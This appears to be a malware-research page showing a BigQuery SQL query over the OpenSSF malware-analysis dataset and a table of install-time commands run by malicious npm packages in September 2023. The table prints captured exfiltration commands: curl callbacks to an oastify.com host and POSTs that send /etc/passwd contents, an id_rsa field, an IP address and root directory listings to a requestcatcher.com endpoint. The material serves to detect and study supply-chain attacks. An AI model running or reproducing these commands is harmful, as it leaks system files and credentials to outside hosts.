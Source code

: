 ```sql
SELECT
  T.Package.Name,
  T.Package.Version,
  Commands.Command[OFFSET(0)] AS exe,
  ARRAY_TO_STRING(Commands.Command, " ") AS command
FROM
  `ossf-malware-analysis.packages.analysis` AS T,
  T.Analysis.install.Commands AS Commands
WHERE
  Package.Ecosystem = "npm"
  AND TIMESTAMP_TRUNC(CreatedTimestamp, MONTH) = TIMESTAMP("2023-09-01")
  AND Commands.Command[OFFSET(0)] IN ("curl", "whoami", "/usr/bin/curl", "python", "wget", "docker", "sudo", "/bin/echo", "ping", "nc")
ORDER BY
  T.Package.Name,
  T.Package.Version 
  ASC
;
```

<table>
<tr><th>Name</th><th>Version</th><th>exe</th><th>command</th></td>
<tr><td>@apps-common/ui-theme</td><td>10.1.0</td><td><code>/usr/bin/curl</code></td><td><code>/usr/bin/curl c971b268fd0b.qlfu0xty7cyyfst1cs3qt6wz3q9hx7lw.oastify.com/ui-theme</code></td></tr>
<tr><td>@dm-connect/manager</td><td>26.0.8</td><td><code>curl</code></td><td><code>curl -s -k -X POST -d passwd=root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:105::/nonexistent:/usr/sbin/nologin
tcpdump:x:104:106::/nonexistent:/usr/sbin/nologin&id_rsa=&ip=34.31.210.88 https://sha16.requestcatcher.com/h4ck3d</code></td></tr>
<tr><td>@dm-connect/manager</td><td>26.0.8</td><td><code>curl</code></td><td><code>curl -s -k ifconfig.me</code></td></tr>
<tr><td>@dm-connect/manager</td><td>28.0.9</td><td><code>curl</code></td><td><code>curl -s -k -X POST -d root_directories=total 24
drwx------ 1 root root 4096 Sep 14 05:28 .
dr-xr-xr-x 1 root root 4096 Sep 20 20:15 ..
-rw-r--r-- 1 root root 3106 Oct 15  2021 .bashrc
drwxr-xr-x 3 root root 4096 Sep 14 05:26 .cache
drwxr-xr-x 3 root root 4096 Sep 14 05:25 .config
drwxr-xr-x 4 root root 4096 Sep 20 20:15 .npm
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile https://sha16.requestcatcher.com/h4ck3d</code></td></tr>